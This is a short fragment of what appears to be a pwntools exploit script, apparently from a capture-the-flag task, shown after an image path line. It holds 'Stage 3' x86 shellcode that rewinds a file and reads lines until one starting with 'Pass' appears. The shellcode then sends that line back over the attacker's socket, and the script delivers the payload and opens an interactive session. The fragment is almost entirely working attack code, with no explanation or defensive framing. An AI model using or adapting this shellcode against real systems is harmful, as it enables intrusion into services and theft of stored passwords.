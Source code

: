 ```python
    mov eax, {rewind}
    call eax

    push 0x100
    push {BSS}

read_line:
    mov eax, {fgets}
    call eax
    
    mov ecx, [eax]
    cmp ecx, 0x73736150
    jne read_line
  
    push 0
    push 0x50
    push {BSS}
    push {SOCK}
    
    mov eax, {send}
    call eax
"""

log.info("Stage 3")
sleep(1)
SHELLCODE = asm(ASM)
io.sendline(SHELLCODE)

io.interactive()

```
